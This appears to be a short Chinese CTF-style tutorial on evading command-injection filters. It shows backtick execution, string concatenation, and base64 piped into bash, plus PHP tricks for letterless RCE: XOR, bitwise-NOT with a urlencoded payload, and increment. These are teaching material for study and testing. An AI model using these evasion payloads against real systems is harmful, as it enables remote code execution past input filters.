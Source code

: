 ### 内联执行

将反引号内命令的输出作为输入执行

```bash
cat `ls`
```

![image-20250311165753013](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250311165753013.png)

### 拼接绕过

```bash
a=fl;b=ag;cat $a$b.txt
```

![image-20250311170122371](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250311170122371.png)

### 编码绕过

```bash
echo Y2F0IGZsYWcudHh0|base64 -d|bash
```

![image-20250311170608923](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250311170608923.png)

### 无数字字母RCE

#### 异或绕过

在php中，两个字符串执行异或操作之后，得到的还是一个字符串

#### 取反绕过

将要输入的命令进行取反，取反后可能会有大量不可见字符，所以用url加密

```php
<?php
$cmd  = "cat flag.txt";
echo urlencode(~$cmd);
?>
```

payload

```
~(%9C%9E%8B%DF%99%93%9E%98%D1%8B%87%8B)
```

#### 自增绕过

php中，对变量进行自增，可以获得字符

```php
<?php
$_ = "A";
$_++;
echo $_; #B
?>
```
